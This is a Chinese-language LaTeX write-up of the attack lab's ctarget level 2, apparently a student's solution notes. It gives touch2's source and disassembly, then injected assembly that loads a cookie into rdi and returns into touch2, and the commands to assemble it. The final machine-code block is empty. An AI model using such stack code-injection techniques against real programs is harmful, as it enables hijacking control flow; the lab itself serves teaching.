 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{figure}[htbp]
\end{figure}
\end{itemize}
\subsection{ctarget.l2}
\begin{itemize}
    \item 任务：getbuf 函数执行返回语句时跳转到 touch2 函数，并通过它的 cookie 验证。touch2 函数的代码如下：
\begin{lstlisting}
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
\end{lstlisting}
    \item 反汇编 touch2 函数。
\begin{lstlisting}
00000000004017ec <touch2>:
4017ec:	48 83 ec 08          	sub    $0x8,%rsp
4017f0:	89 fa                	mov    %edi,%edx
4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
4017f9:	00 00 00 
4017fc:	3b 3d e2 2c 20 00    	cmp    0x202ce2(%rip),%edi        # 6044e4 <cookie>
401802:	75 20                	jne    401824 <touch2+0x38>
401804:	be e8 30 40 00       	mov    $0x4030e8,%esi
401809:	bf 01 00 00 00       	mov    $0x1,%edi
40180e:	b8 00 00 00 00       	mov    $0x0,%eax
401813:	e8 d8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
401818:	bf 02 00 00 00       	mov    $0x2,%edi
40181d:	e8 6b 04 00 00       	callq  401c8d <validate>
401822:	eb 1e                	jmp    401842 <touch2+0x56>
401824:	be 10 31 40 00       	mov    $0x403110,%esi
401829:	bf 01 00 00 00       	mov    $0x1,%edi
40182e:	b8 00 00 00 00       	mov    $0x0,%eax
401833:	e8 b8 f5 ff ff       	callq  400df0 <__printf_chk@plt>
401838:	bf 02 00 00 00       	mov    $0x2,%edi
40183d:	e8 0d 05 00 00       	callq  401d4f <fail>
401842:	bf 00 00 00 00       	mov    $0x0,%edi
401847:	e8 f4 f5 ff ff       	callq  400e40 <exit@plt>  
\end{lstlisting}
    \item 可以看到 touch2 函数以 rdi 为参数来验证 cookie。所以我们
    需要先将 rdi 置为 cookie 的值，然后将 touch2 函数的地址压栈。
    汇编代码为（写在example.s中）：
\begin{lstlisting}
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
\end{lstlisting}
    用以下命令将它转化为机器代码：
\begin{lstlisting}
gcc -c example.s
objdump -d example.o > example.s
\end{lstlisting}
    得到的机器代码：
\begin{lstlisting}
example.o:     file format elf64-x86-64



\end{lstlisting}
\end{itemize}
\end{document}
